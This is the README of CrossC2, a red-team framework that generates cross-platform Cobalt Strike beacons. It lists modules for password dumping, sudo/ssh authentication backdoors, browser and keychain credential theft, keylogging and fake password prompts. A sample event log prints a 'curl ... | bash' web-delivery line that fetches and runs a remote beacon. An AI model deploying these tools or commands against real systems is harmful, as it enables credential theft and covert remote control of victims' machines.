

# CrossC2 framework

[README](README.md) | [中文文档](README_zh.md)

🚀 For a faster way, see **cna** introduction [GO📌](#cna-plugin-way)

🔥 **Linux** & **MacOS** supports no file landing, load and execute from memory **dynamic library** or **executable file** [GO📖](https://gloxec.github.io/CrossC2/en/api/)

🔥 Flexibly customize the data return type of the execution file, **portscan**, **screenshot**, **keystrokes**, **credentials** and other user-defined development to achieve more convenient implementation [GO📖](https://gloxec.github.io/CrossC2/en/api/commons.html)    ( [Sample: GO📌](#CustomExtension) )

🔥 Custom communication protocol [GO📖](https://gloxec.github.io/CrossC2/en/protocol/)

🎉 **Android** & **iPhone** support [GO📌](#Mobile)


# CrossC2 framework - Generator CobaltStrike's cross-platform beacon

```
     ▄████▄   ██▀███   ▒█████    ██████   ██████     ▄████▄   ██████▄ 
    ▒██▀ ▀█  ▓██ ▒ ██▒▒██▒  ██▒▒██    ▒ ▒██    ▒    ▒██▀ ▀█        ██░
    ▒▓█    ▄ ▓██ ░▄█ ▒▒██░  ██▒░ ▓██▄   ░ ▓██▄      ▒▓█        █████▒ 
    ▒▓▓▄ ▄██▒▒██▀▀█▄  ▒██   ██░  ▒   ██▒  ▒   ██▒   ▒▓▓▄ ▄█ ░▒██      
    ▒ ▓███▀ ░░██▓ ▒██▒░ ████▓▒░▒██████▒▒▒██████▒▒   ▒ ▓███▀  ░▒▓█████▓
    ░ ░▒ ▒  ░░ ▒▓ ░▒▓░░ ▒░▒░▒░ ▒ ▒▓▒ ▒ ░▒ ▒▓▒ ▒ ░   ░ ░▒ ▒    ░▒ ░▓ ░░
      ░  ▒     ░▒ ░ ▒░  ░ ▒ ▒░ ░ ░▒  ░ ░░ ░▒  ░ ░     ░  ▒     ░ ░░ ░ 
    ░          ░░   ░ ░ ░ ░ ▒  ░  ░  ░  ░  ░  ░     ░         by:░hook
    ░ ░         ░         ░ ░        ░        ░     ░ ░          ░    
    ░                                               ░                 
              
```


# Description

A security framework for enterprises and Red Team personnel, supports CobaltStrike's penetration testing of other platforms (Linux / MacOS / ...), supports custom modules, and includes some commonly used penetration modules.

`Only for internal use by enterprises and organizations, this framework has a certain degree of instability. Non-professionals are not allowed to use it. Anyone shall not use it for illegal purposes and profitability. Besides that, publishing unauthorized modified version is also prohibited, or otherwise bear legal responsibilities.`


|  | Windows | Linux | MacOS | iOS | Android | Embedded |
| --- | --- | --- | --- | --- | --- | --- |
| Run Env (x86) |  | √ |  |  |  |  |
| Run Env (x64) | √ | √ | √ |  |  |  |
| gen beacon (x86) |  | √ |  |  | √ |  |
| gen beacon (x64) |  | √ | √ |  |  |  |
| gen beacon (armv7) |  |  |  | ⍻  | √ |  |
| gen beacon (arm64) |  |  |  | √ | √ |  |
| gen beacon (mips[el]) |  |  |  |  |  | ⍻ |

Restricted description:
* CobaltStrike: currently only supports the last version of cs 3.14(bug fixs).
* Linux: For particularly old systems, you can choose "Linux-GLIBC" option in cna (around 2010)
* MacOS: Latest systems only support 64-bit programs
* iOS: sandbox, restricted cmd
* Embedded: only *nix
* ⍻ : Loader is still in progress

# Install & Usage

> Download:

* **CrossC2.cna**
* **genCrossC2** `(If it is a Windows system, download genCrossC2.Win.exe)`

1. choose `Script Manager`，add `CrossC2.cna` (If successfully installed, the menu bar will have an additional item `CrossC2`)
2. Modify the `genCC2` path in the` CrossC2.cna` script to the **real path**

```
77:    $genCC2 = "/xxx/xx/xx/genCrossC2.MacOS";  # <-------- fix
```

> Create listener and copy key:

For some reasons, only HTTPS beacon is currently supported.

**Copy `.cobaltstrike.beacon_keys` from the cs directory on the server to the local directory.**

## Reference documents: [📖 Wiki](https://gloxec.github.io/CrossC2/en/usage/)

## Module: API introduction [📖 Wiki](https://gloxec.github.io/CrossC2/en/api/)

It adopts the method of loading memory without landing, and supports dynamic libraries (.so/.dylib) and executable files (ELF/MachO).
`⚠️: Although the file is loaded directly from memory, the process can be viewed in ps when the executable file is passed in, but the process name can be customized.`

The type of output information can be freely specified at the time of execution. The return type has been predetermined and can be docked with the native return data type of CS.
`⚠️: For special data types, such as passwords, port scan results, etc., please refer to the information returned by the native function of cs, which will be matched according to the regular.`

1. Password dump module: cc2_mimipenguin uses the open source project MimiPenguin2.0, see
2. CrossC2Kit / mimipenguin / mimipenguin.cna
3. Authentication backdoor modules: cc2_auth, cc2_ssh sudo / su / passwd and other authentication backdoors, ssh is connected and the credentials to connect to other hosts will be recorded.
4. Information collection modules: cc2_safari_dump, cc2_chrome_dump, cc2_iMessage_dump, cc2_keychain_dump access records of common browsers, as well as iMessage chat content and authentication credentials saved in the keychain will be obtained.
5. Traffic proxy module: cc2_frp supports fast TCP/KCP(UDP) reverse socks5 encrypted traffic proxy.
6. Keylogger module: cc2_keylogger records user's keyboard input.
7. Network detection module: cc2_portscan, cc2_serverscan for port scanning and service version scanning.
8. Privilege promotion module: cc2_prompt_spoof induces deception to obtain user account password.
9. Task management module: cc2_job manages the modules running in memory.
1. ...

## Custom communication protocol: API introduction [📖 Wiki](https://gloxec.github.io/CrossC2/en/protocol/)

Can more easily realize C2Profile configuration and custom communication protocol TCP / UDP and so on.

## cna plugin way

```
Menu Bar: CrossC2 -> CrossC2 Payload Generator -> genCrossC2

Can be configured in the pop-up dialog:
1. Select beacon_key (the path cannot contain spaces, the problem is not solved yet)
2. A dynamic library of custom communication protocols that needs to be bound to beacon
3. Payload type (Staged generated shellcode requires stagerServer)
```



The information status will be prompted in the **event** interface during generation

```
05/01 23:31:03 *** /mnt/cc2/genCrossC2.MacOS 172.16.251.1 5555 /tmp/beacon_keys null MacOS x64 /tmp/CrossC2-test
05/01 23:31:06 *** genCrossC2 beacon -> *[success] :	Packed 1532232 byte.
05/01 23:31:07 *** hook hosted CrossC2 beacon MacOS x64 @ http://172.16.251.1:55413/iqEBVKwHoZ
05/01 23:31:07 *** hook hosted Script Unix Web Delivery (curl) @ http://172.16.251.1:55413/a
05/01 23:31:07 *** CrossC2 MacOS x64:   curl -A o -o- -L http://172.16.251.1:55413/a | bash -s
```


# Coming soon

1. Rich C2Profile support ✔︎ (Choose custom HTTP module when CNA generates beaocn)
2. Staged Type Shellcode Generation ✔︎ (Only Linux is temporarily supported, and stagerServer needs to be started on the server)
3. http-proxy (auth) & socks proxy back connection support
4. Proxy-Pivots  ✔︎ (Temporarily adopt the method of connecting back to socks proxy)
5. node beacon? (Single node type, can host other beacon without relying on teamserver)

# Examples

## Mobile


## MacOS & Linux


## CustomExtension

Develop dynamic libraries and customize data return types, such as implementing some built-in functions.

### keystrokes


### credentials


### portscan


# ChangeLog

## release v1.3 :

* +support Support custom communication protocol (HTTP, TCP, UDP...) .
* +support A new joblist module has been added to manage programs running without files in persistent memory.
* +support Reverse proxy module{TCP/KCP(UDP)} that executes without files in memory.


md5(genCrossC2.Linux) = 221b3ede4e78fee80f59946f116d7245

md5(genCrossC2.MacOS) = d216cad3fe3c25ead46b85c7ad7051f1

md5(genCrossC2.Win.exe) = a573506e8825b46b041ac3b9307a656b

## release v1.2 :

* +support Support manual selection of key files.
* +support Support to generate shellcode.
* -change No longer rely on cobaltstrike.jar (plug-ins can be placed in any directory).
* -change More flexible and convenient Script Unix Web Delivery.

md5(genCrossC2.Linux) = 2ef7250cc3787d3cbd1e6f99c3c434aa

md5(genCrossC2.MacOS) = eaabde94dd7fed8dabb37cd67a1171c4

md5(genCrossC2.Win.exe) = c65ac808ed3a1000b3ff4ebb8c48ea4e

## release v1.1 :

* -fix Multi-language garbled problem fix for memory load execution function

md5(genCrossC2.Linux) = 2347ed6e30e4655b793a6dbb4d33d25c

md5(genCrossC2.MacOS) = f530333500a76fe228864f8901af4104

md5(genCrossC2.Win.exe) = c223e31b2674a8a11d3254f92259e87a

## release v1.0 :

* -fix Test multiple times for a long time in multiple scenarios in real environment, fix some hidden problems, now more stable
* +support Linux & MacOS Supports no file landing, loading and executing from memory
* +support Reserved CS built-in data types, richer user-defined plug-in return data types, free and easy to implement 'portscan' and other native functions

md5(genCrossC2.Linux) = 12295998d4bffd5b4c4a411fb33428bb

md5(genCrossC2.MacOS) = c88ce9df47529b243e2215a866d445c5

md5(genCrossC2.Win.exe) = 51d1814f1ebbab634bce0373ceb7cee6

## release v0.4 :

* -change Multi-threaded background when shell commands are executed
* -change Redirect error output to standard output when shell command is executed.
* +support Add background file download function.

md5(genCrossC2.Linux) = b2e34f721ec2543b6625e33c8c2935df

md5(genCrossC2.MacOS) = 4e38a9d9a3eeff309648afc02e2e7664

## release v0.3 :

* +support Compatibility with older versions of GLIBC on older systems Linux (around 2010).

## release v0.2 : 

* -fix genCrossC2.Linux crash.
* -fix uploading large file error.
* +support GUI file manager.

md5(genCrossC2.Linux) = 8256374d88c2149efc102aff7e90b3f9

md5(genCrossC2.MacOS) = 08fce0a5d964a091d8bf2344d7ab809e

## release v0.1 : 

* Support Linux & MacOS beacon generation.

md5(genCrossC2.Linux) = f4c0cc85c7cdd096d2b7febedc037538

md5(genCrossC2.MacOS) = 79fff0505092fc2055824ed1289ce8f9


